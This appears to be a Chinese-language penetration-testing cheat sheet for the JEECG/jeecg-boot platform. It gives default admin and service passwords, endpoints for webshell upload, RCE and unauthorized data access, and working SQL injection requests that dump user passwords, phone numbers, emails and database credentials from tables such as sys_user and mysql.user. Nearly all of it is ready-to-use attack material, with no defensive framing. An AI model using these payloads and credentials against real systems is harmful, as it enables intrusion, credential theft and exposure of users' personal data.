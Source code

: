 JEECG(J2EE Code Generation)是开源的代码生成平台，目前官方已停止维护。
**注：Jeecg 与 Jeecg-boot 非相同应用。** Jeccg官方地址为：https://gitee.com/jeecg/jeecg
^


jeecg-boot是一个基于SpringBoot的低代码开发平台CMS，号称最具影响力。



特征：
/system/
/sys/
/jeecg-boot/
/jeecg-boot/sys/
/jeecg-boot/sys/common/upload

演示站细看：<http://boot3.jeecg.com/login>
开发文档：<https://help.jeecg.com/java/java/qa.html>

JEECG的默认登录账号密码如下：
1. [账号：admin，密码：123456](http://idoc.jeecg.com/1275933)[](http://idoc.jeecg.com/1275933)[](https://www.cnblogs.com/CHENJIAO120/p/7079300.html)
2. [账号1：jeecg，密码1：jeecg#123456；账号2：qinfeng，密码2：jeecg#123456]
3. [在jeecg-cloud-nacos中，nacos鉴权的默认用户名密码为nacosnacos](https://segmentfault.com/a/1190000045065819)[](https://segmentfault.com/a/1190000045065819)
4. [在在线接口文档swagger中，登录名为jeecg，密码为jeecg1314](http://doc.jeecg.com/2043926)[](http://doc.jeecg.com/2043926)

^
## **存在多个历史漏洞**
工具：<https://github.com/R4gd0ll/I-Wanna-Get-All>
<https://my.oschina.net/jeecg/blog/10150942>
<https://xz.aliyun.com/t/15138?time__1311=GqjxuQD%3DeYqeqGNDQi5BKKdgzwxAKGC%2BCeD>

接口文档泄露：
/jeecg-boot/v2/api-docs

账号创建漏洞：
/jeecg-boot/server/sys/user/addy

任意文件上传，可以传webshell：
/jeecg-boot/commonController.do?parserXml

SQL注入：
1）/sys/duplicate/check
2）/sys/ng-alain/getDictItemsByTable/
3）/sys/dict/queryTableData
4）/jmreport/qurestSql

RCE：
/jeecg-boot/jmreport/queryFieldBySql
/jeecg-boot/jmreport/loadTableData
/jeecg-boot/jmreport/testConnection
/jeecg-boot/api/../jeecgFormDemoController

如：/jeecg-boot/jmreport/loadTableData命令执行：
<https://blog.csdn.net/qq_36334672/article/details/136025263>
设置token(可选)和请求体，响应包里有命令执行结果。
如：testConnection
<https://mp.weixin.qq.com/s/DW_tUQt9qjNb6woZy42xeA>

^
后台jdbc


^
工具：<https://mp.weixin.qq.com/s/loTo06eNhyUIxUIPGJQuzg>
用工具加上前缀/jeecg-boot/、/jeecgboot/、/xxx-boot/、/api/

^
敏感接口
```
/user/register
注册

数据源：
/monitor/datasource
/isystem/dataSource
/xxx/dataSource
/jeecgboot/sys/dataSource/list

看指定数据库的账号密码:
/jeecgboot/sys/dataSource/queryById?id=1209779538310004737

OSS存储数据列表：
/jeecgboot/sys/oss/file/list


附件数据列表：
/jeecgboot/system/sysFile/list
/api/system/sysFile/list


第三方配置：
/jeecgboot/sys/thirdApp/getThirdConfigByTenantId




字典
/jeecgboot/sys/dict/list?column=createTime&order=desc


用户列表
/jeecgboot/sys/user/listAll
/jeecgboot/sys/user/list



流程监听
/jeecgboot/act/process/extActListener/list


网关路由
/jeecgboot/sys/gatewayRoute/list



数据日志
/jeecgboot/sys/dataLog/list
登录日志
/jeecgboot/sys/log/list?logType=1
操作日志
/jeecgboot/sys/log/list?logType=2
异常日志
/jeecgboot/sys/log/list?logType=4


请求追踪，最近的请求
/jeecgboot/actuator/httptrace-new/all
/jeecgboot/actuator/httptrace-new/success

在线用户
/jeecgboot/sys/online/list




##### 版本号：
3.7.0
##### 问题描述：
当主表的数据关联不上子表的任何数据时，查看详情会弹出tips 子表获取数据失败:xxx，直接暴漏了子表的名称

/jmreport/
一般是8085:/jmreport/
有没有开启积木报表功能，开启了更多漏洞。
积木报表管理数据集，点击设计报表可以运行sql，左边维护可以查看数据库源密码和jdbc。
```

^
## **漏洞**
### **SQL注入**
getDictItemsByTable注入分析：<https://xz.aliyun.com/t/13186?time__1311=GqmhkD8iGNDKKYK0%3DeG%3Dt0QqitoQymmD>
```
sql注入账号密码查询。若报错可报项目路径
/sys/ng-alain/getDictItemsByTable/sys_user/username/password
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/username,password%20'/x.js

sys_third_app_config
sys_data_source
oss_file
mysql.user
要有查看权限对于语句 select *, ' as "label",x.js as "value" from ' from mysql.user

```
注入2
```
/jeecg-boot/api/sys/dict/queryTableData?pageSize=10000&table=information_schema.tables&text=table_name&code=TABLE_SCHEMA
```
网上公开poc为

GET /jeecg-boot/sys/dict/queryTableData?pageSize=100&table=information_schema.tables&text=table_name&code=TABLE_SCHEMA


GET /sys/dict/queryTableData?pageSize=100&table=information_schema.tables&text=table_name&code=TABLE_SCHEM
如果遇见waf无法sqlmap跑东西时可利用如下poc拿数据深入利用，可自行进行拓展

| 查看用户手机 | /sys/dict/queryTableData?table=sys_user&pageSize=22&pageNo=1&text=username&code=phone |
| 查看用户邮箱 | /sys/dict/queryTableData?table=sys_user&pageSize=220&pageNo=1&text=username&code=email |
| 查看用户密码 | /sys/dict/queryTableData?table=sys_user&pageSize=220&pageNo=1&text=username&code=password|
| 查看数据库地址 | /sys/dict/queryTableData?table=jimu_report_data_source&pageSize=22&pageNo=1&text=db_username&code=d

^
注入3
<https://github.com/jeecgboot/JeecgBoot/issues/5296>
<https://github.com/jeecgboot/JeecgBoot/issues/5269>

表
```
sys_data_source db_username
```

^
### **未授权泄露最近的请求路径**
```
/sys/user/querySysUser?username=admin 查询某个用手机号
/jeecg-boot/actuator/httptrace/  可能获取到管理员jwt
/api/actuator/httptrace

/sys/getEncryptedString  获取AES加密IV
```

普通账户权限提升：
<https://github.com/jeecgboot/JeecgBoot/issues/5270>